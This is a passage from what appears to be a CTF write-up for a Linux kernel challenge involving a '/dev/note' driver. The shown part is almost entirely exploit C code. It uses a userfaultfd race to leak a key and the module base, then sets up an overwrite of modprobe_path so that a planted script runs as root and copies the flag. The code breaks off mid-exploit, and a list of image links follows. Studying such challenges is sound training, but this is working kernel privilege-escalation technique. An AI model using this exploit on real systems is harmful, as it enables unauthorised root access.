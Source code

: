 ```C

    uffdio_register.range.start = (unsigned long) FAULT_ADDR;
    uffdio_register.range.len = page_size;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if(ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) < 0)
        perror("uffdio_register");

    if(pthread_create(&tid, NULL, fault_handler_thread, (void*)uffd) < 0)
        perror("pthread");
}

void modprobe(){
    system("echo -ne '#!/bin/sh\n /bin/cp /flag /home/note/flag\n /bin/chmod 777 /home/note/flag' > /home/note/flag.sh");
    system("chmod +x /home/note/flag.sh");
	system("echo -ne '\\xff\\xff\\xff\\xff' > /home/note/dummy");
	system("chmod +x /home/note/dummy");
    system("/home/note/dummy");
    system("cat flag");
}

char bufptr[0x100]={0};

int main() {
    fd = open("/dev/note", 0);
    if (fd < 0){
        perror("open");
    }
    
    add(bufptr, 0x10);
    register_userfault();
    edit(0, FAULT_ADDR, 0x10); //suspend
    
    show(1, bufptr);   //0->key
    unsigned long key = *(unsigned long *)bufptr;
    
    add(bufptr, 0); //2
    show(1, bufptr);    
    unsigned long content_key = *(unsigned long*)(bufptr+0x10) ^ key;
    unsigned long module_key = content_key - 0x2500 - 0x68;
    unsigned long page_offset_base = 0xffffffffc0000000 + (module_key&0xffffff) - module_key;
    printf("key: 0x%lx; module_key: 0x%lx; page_offset_base: 0x%lx\n", key, module_key, page_offset_base);

    unsigned long module_base = 0xffffffffc0000000 + (module_key & 0xffffff);
    printf("module_base: 0x%lx\n", module_base);
    *(unsigned long *)bufptr = key ^ 0;
    *(unsigned long *)(bufptr + 0x8) = key ^ 0x4;
    *(unsigned long *)(bufptr + 0x10) = key ^ (module_base+0x6c+0x1-page_offset_base);
    edit(1, bufptr, 0x18);
    
    show(2, bufptr);
    int _copy_from_user_offset = *(int *)bufptr;
    unsigned long _copy_from_user = module_base + 0x6c + 0x1 + 0x4 + _copy_from_user_offset;
    unsigned long modprobe_path = _copy_from_user+0xffffffff8205e0e0-0xfffffffF81353e80;
    printf("_copy_from_user: 0x%lx; modprobe_path: 0x%lx\n", _copy_from_user, modprobe_path);
    
    char buf[0x28];
    memset(buf, 0, 0x28);
    strcpy(buf, "/home/note/flag.sh\x00");
    *(unsigned long *)bufptr = key ^ 0;
    *(unsigned long *)(bufptr + 0x8) = key ^ 0x20;
    *(unsigned long *)(bufptr + 0x10) = key ^ (modprobe_path - page_offset_base);
```

  [1]: http://static.zybuluo.com/leafish/e86u5q8x5yciwck2de1bpi4q/image_1e6vc3qeosuh1tkeaqecqosh79.png
  [2]: http://man7.org/linux/man-pages/man2/userfaultfd.2.html
  [3]: https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt
  [4]: http://static.zybuluo.com/leafish/y4b9btjir01tm161n29xeaw7/image_1e74h0mpf1bg212tn127elp21oi79.png
  [5]: http://static.zybuluo.com/leafish/cpemi1wafhu00b1sgrgtickb/image_1e74kpa7214ihl034sbvmmju2m.png
  [6]: http://static.zybuluo.com/leafish/4jxy2lfb4vcwekjo4j6ay9c3/image_1e74l6njtui02tq1se5hu115n13.png
  [7]: http://static.zybuluo.com/leafish/mc8fxo1pdyzrc1tgm8fk8rx3/image_1e74lag3a1elaaqbjsl1uve1c4l1g.png
  [8]: http://static.zybuluo.com/leafish/v5a7njxc1x4y7vf01upmzxaf/image_1e723q42t1v6m11101iqe6ib1h99.png
  [9]: http://static.zybuluo.com/leafish/jpg13had1tbi8xazvmx38lrc/image_1e74m8uic1hogjnn1bn584d1elj1t.png
  [10]: http://static.zybuluo.com/leafish/n9e5u2jhki8fuz8jf7vkkfac/image_1e74mcknt1g6b1ovg1hh91o6013rh2a.png
  [11]: http://static.zybuluo.com/leafish/70qsg2p46qj6csuvlor1v32w/image_1e723s8sq1uquem47b01rraage13.png
  [12]: http://static.zybuluo.com/leafish/jkq0cfvbkyszp9aj615tv6gy/image_1e74o110e1ord1ri11and10b214p19.png
  [13]: http://static.zybuluo.com/leafish/q6dpxzvrp8dff8msv9alxarl/image_1e74ol42u1ulssg7t3bpqo1ni4m.png
  [14]: http://static.zybuluo.com/leafish/vm6mq7m7b1qbdq5r84aj1p41/image_1e734paevjjo17fleaa1a15th9.png
  [15]: https://hub.docker.com/r/klee/uclibc